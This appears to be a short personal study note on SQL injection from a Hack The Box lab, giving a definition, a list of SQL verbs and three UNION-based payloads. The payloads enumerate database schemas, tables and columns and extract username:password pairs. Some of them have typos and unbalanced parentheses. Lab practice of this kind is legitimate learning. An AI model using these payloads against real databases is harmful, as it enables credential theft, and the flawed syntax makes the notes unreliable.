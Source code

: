 SQL Injection is an attack in which malicious SQL statements are injected into SQL
easy to avoid

# Common SQL Verbs
SQL statment begin with verbs
SELECT
INSERT
DELETE
UPDATE
DROP
UNION

# Additional to [[SQL-Injection (SQLi)]]
from [[00 Progress/Boxes/HTB/Linux/Shared/01 Exploit]]

change # to the values


1- union select 1,(select group_concat(schema_name) from INFORMATION_SCHEMA.SCHEMATA,3-- -

2- union select 1,(select group_concat(TABBLE_NAME,':',COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA like '# DATABASE NAME '),3-- -

3- union select 1,(select group_concat(# username ,':',# password) from # user  ,3-- -



